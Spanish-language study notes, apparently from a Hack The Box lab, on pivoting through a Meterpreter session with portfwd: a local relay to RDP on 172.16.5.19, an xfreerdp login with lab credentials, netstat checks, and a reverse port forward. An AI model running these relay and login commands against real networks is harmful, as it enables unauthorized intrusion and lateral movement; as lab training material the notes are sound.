 ## Port Forwarding

Un port forwarding también se puede lograr haciendo uso del módulo de meterpreter *portwd*.
Podemos tener un listener en la máquina atacante mientras que en la sesión de meterpreter podemos redireccionar todos los paquetes llegados a tal puerto de la máquina víctima. De esa forma, estarán comunicados la máquina atacante con la máquina víctima (situadas en redes distintas).

## Creando un Local TCP Relay

El siguiente comando:
- Crea un listener en el puerto 3300 de la máquina atacante. 
- Reenvía todos los paquetes (-r) al servidor windows remoto 172.16.5.19 en el puerto 3389 (-p) a través de la sesión de meterpreter.

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

Redirige el tráfico que llega a mi máquina atacante al puerto local 3300 y lo envía al puerto 3389 de la máquina 172.16.5.19  

## Conectándonoes con la máquina víctima a través del localhost del atacante
Ejecutando ahora un "xfreerdp en nuestro local host:300" podremos crear una sesión de escritorio remoto:

```shell-session
Polika4RM@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```


### Netstat Output
Podemos utilizar el comando "netstat" para ver la información sobre la sesión rdp que hemos creado recientemente:
```shell-session
Polika4RM@htb[/htb]$ netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```

---

## Meterpreter: reverse port forwarding
De forma similar a los redireccionamientos de puertos locales, Metasploit también puede realizar redireccionamientos de puertos inversos con el siguiente comando:
```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```
